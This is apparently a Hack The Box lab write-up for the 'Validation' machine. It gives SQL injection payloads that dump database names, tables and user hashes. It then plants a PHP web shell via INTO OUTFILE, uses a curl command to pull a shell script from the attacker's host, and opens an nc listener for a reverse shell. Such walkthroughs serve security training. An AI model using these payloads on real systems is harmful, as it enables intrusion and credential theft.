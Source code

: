 # Validation HacktheBox

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)

**All DataBases**

Payload: ' union select schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/79543461/177171212-3efc9aa0-4291-4807-abf9-66885bfe0a08.png)

**Tables Registration Database**

Payload: ' union select table_name from information_schema.tables where table_schema="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177171583-48dca75b-e3f3-4a55-a860-3d5297fb0f45.png)

Table name is the same than DataBase Name

**Columns**

Payload: ' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177172114-948b0c56-5358-47d9-8328-fec1366e3086.png)

**Users and Passwords**

Payload: ' union select group_concat(username,0x3a,userhash) from registration-- -

![image](https://user-images.githubusercontent.com/79543461/177172762-289b5e1f-248c-4e39-994f-d6fd8a30c4ff.png)

This users are my users...

**RCE**

Payload: ' union select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/www/html/rce.php"-- -

**Works!!**

![image](https://user-images.githubusercontent.com/79543461/177177136-7d1b27fa-3f5e-420b-9fb2-e048e02d502a.png)

**Reverse Shell**

I create in my Kali Machine a php script to gain reverse shell.

I open http server wirth python3: python3 -m http.server

In victim RCE: curl -o shell.php 10.10.14.33:8000/shell.php

Now i put rlwrap nc -lnvp 1212

I access to:  http://10.10.11.116/shell.php

**I HAVE SHELL!!**

![image](https://user-images.githubusercontent.com/79543461/177179263-e41c28fb-324e-4e7d-926b-8e39c4548d11.png)


